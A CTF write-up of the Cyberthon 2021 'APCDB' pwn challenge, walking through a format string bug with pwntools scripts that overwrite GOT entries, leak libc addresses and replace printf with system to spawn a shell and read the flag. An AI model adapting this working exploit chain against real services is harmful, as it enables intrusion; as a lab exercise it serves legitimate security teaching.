 ```yaml
---
type: ctf
title : Cyberthon 2021 Finals - APCDB (pwn)
tags: [Cyberthon CTF, feuerfuchs challenge]
date : 2021-05-19
author: Eno Leriand
featuredImage: https://upload.wikimedia.org/wikipedia/commons/5/52/Cyberthon_2021.png
---
```


> We've found a network service that seems to be posing as a fake directory of APOCALYPSE members. Although it doesn't seem to be hooked up to any actual database, it does look a tad vulnerable. Could u try to break in anyway? Who knows, access to this server might come in useful.
>
> Interact with the service at: aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:30201
>
> Note: once you get a shell, the flag.txt can be found in the user's home directory.
>
> Attached : [apcdb.zip](/Files/apcdb.zip)

## Overview

```cpp
{
  char format[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  setup_IO(argc, argv, envp);
  banner();
  printf("[+] Contact Lookup: ");
  __isoc99_scanf("%255s", format);
  puts(s);
  printf("[+] Looking up contact for ");
  printf(format);
  puts("...");
  puts("[-] Sorry, no such member!");
  exit(0);
}
```

Let's break down what the program is doing here:

1. It prints a **banner()**
2. It scans in **%255s** worth of input into `format[264]`. _no bof :(_
3. It **printf(format)** _aka our input_ which gives us a format string vulnerability.
4. It then exits the program.

## Exploitation Ideas

It is apparent that we have to use the format string exploit in order to win, as it is the only exploit available to us.

However, there is no function that prints the flag or grants us a shell. System function is also **not imported** in this binary.

Hence it becomes apparent that we have to call system with a **ret2libc** attack.

Hence the idea is as such:

1. We have to first loop the program back so that our program doesnt just simply close after one loop.
2. We have to leak the LIBC of the functions so we are able to find the LIBC used and obtain our offset.
3. Find an ideal function to overwrite such that we can execute `system('/bin/sh')` and obtain a shell. _the only function that seems usable is printf_

Let's get started.

## Exploitation

Our first objective is to loop the program back continuously. This can be done by overwriting **GOT entry for exit() to the address of main**.

This is so that everytime the program tries to exit, it goes back to main instead.

Since PIE is not enabled, our GOT addresses will remain constant so we can easily find the addresses we need, made even easier with pwntools.

```python
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)

context.binary = elf = ELF('apcdb')
exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))
p.interactive()
'''
[*] '/media/sf_dabian/Challenges/Cyberthon/Pwn/abcdb/apcdb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)

 ] Exit: 0x601040
'''
```

Next, we find the offset of our input with a simple payload ```AAAAAAAA.%p.%p.%p.%p.%p.%p```.

![image](https://user-images.githubusercontent.com/76640319/117538307-3217a680-b038-11eb-8bf8-9b51e4f6af43.png)

As you can see, our input offset is just nice on the 6th format string. Hence our offset is 6.

With that, we have everything we need to leak our global offset table values.

Initially, I tried sending `p.sendline(p64(elf.got.printf) + b'%6$s')` to the program. However it did not yield me my expected leak.

This is because the scanf only reads up till the null terminator. Consider this:

![image](https://user-images.githubusercontent.com/76640319/117538662-d5b58680-b039-11eb-86d9-715a1a9f1ab2.png)

Anyways, this means that we will have to put our format string at the start and our leak behind.

```python
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)
context.binary = elf = ELF('apcdb')

exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))

payload = b'%7$sAAAA' + p64(elf.got.printf)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
printf = u64(p.recvline().rstrip(b'AAAA(\x10`...\n').ljust(8, b'\x00'))

payload = b'%7$sAAAA' + p64(elf.got.puts)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
puts = u64(p.recvline().rstrip(b'AAAA\x18\x10`...\n').ljust(8, b'\x00'))

log.info(f"Printf is {hex(printf)}")
log.info(f"Puts is {hex(puts)}")


p.interactive()

'''
[*] Printf is 0x7f4b82cb6f70
[*] Puts is 0x7f4b82cd2aa0
'''
```

By looking up the addresses of printf and puts in blukat, we find our libc.

![image](https://user-images.githubusercontent.com/76640319/117539045-47da9b00-b03b-11eb-94a6-fd8bbc54dd2c.png)

We can now calculate the libc base by using our leak to minus the libc symbol.

With the libc base, we can find libc symbol for system, thus allowing us to overwrite **printf GOT entry with libc system**.

Thus the next time we send **/bin/sh\x00** as our input, it will be executed by system rather than printf and we get a shell.

```python
from pwn import *
p = remote('aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg', 30201)
context.binary = elf = ELF('apcdb')
libc = ELF('libc6_2.27-3ubuntu1.4_amd64.so')

exit = elf.got.exit
main = elf.sym.main

log.info(f"Main: {hex(main)}")
log.info(f"Exit: {hex(exit)}")

p.sendline(fmtstr_payload(6, {exit:main}))

payload = b'%7$sAAAA' + p64(elf.got.printf)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
printf = u64(p.recvline().rstrip(b'AAAA(\x10`...\n').ljust(8, b'\x00'))

payload = b'%7$sAAAA' + p64(elf.got.puts)                              # since its a 64bit binary, data is stored in 8 bytes. %7$s is 4 bytes, and AAAA is appended to make it 8 so that the format string directly references the leak and not some random bytes
p.clean()
p.sendline(payload)

p.recvuntil("contact for ")
puts = u64(p.recvline().rstrip(b'AAAA\x18\x10`...\n').ljust(8, b'\x00'))

log.info(f"Printf is {hex(printf)}")
log.info(f"Puts is {hex(puts)}")

libc.address = printf - libc.sym.printf

p.sendline(fmtstr_payload(6, {elf.got.printf: libc.sym.system}))

p.sendline('/bin/sh\x00')
p.clean()
p.sendline('cat */*/flag*')
print(p.recvline())
```

**Cyberthon{f4k3_c0nt4ct5_f41lur3}**
